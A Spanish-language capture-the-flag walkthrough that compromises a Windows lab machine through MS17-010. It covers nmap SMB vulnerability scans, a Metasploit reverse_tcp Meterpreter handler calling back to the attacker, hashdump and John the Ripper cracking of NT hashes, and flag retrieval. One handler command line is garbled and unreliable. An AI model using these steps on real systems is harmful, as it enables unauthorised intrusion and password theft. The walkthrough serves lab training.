



# BLUE
## Escaneo de puertos

```bash
nmap -sV -O ip
```

-sV: Nos da la la versión de los servicios
-O: Te dice el sistema operativo


Para conseguir a que es vulnerable ejecutamos el comando

```bash
nmap --script smb-vuln* ip
```

--script: lo que hace es buscar todos los script que pueden afectar


## Entramos en Metasploit 

Hacemos `msfconsole` para entrar en Metasploit y buscamos la vulnerabilidad `MS17-010` 


Ajustamos los parametros de RHOSTS y LHOST para poder utilizarlo correctamente


Hacemos run y entramos en el ordenador


Convertimos la shell en un meterpreter con los siguientes comandos

```bash
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp 
set payload for your target set LHOST ip_del_tunel
```


## Cracking

Para ello ponemos `hashdump` y nos devuelve los usuarios con las contraseñas hasheadas


Para ver la contraseña en plano ponemos el siguiente comando con `John the Ripper`

```bash
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt contraseña
```


## Encontrar flags

Hacemos `cd C:\\` , después hacemos `ls` y vemos que hay un archivo que se llama `flag1.txt` y entramos en el archivo haciento `cat flag1.txt` y obtenemos la primera flag `flag{access_the_machine}`


Esto es lo que contiene flag1.txt




Para la segunda flag nos vamos a `C:\\Windows\System32\config` y hacemos `ls` para ver la flag2


Esto es lo que contiene flag2.txt



Para la ultima flag vamos a `C:\\User\Jon\Documents` y hacemos `ls` y encontramos un archivo que se llama flag3.txt


Esto es lo que contiene flag3.txt




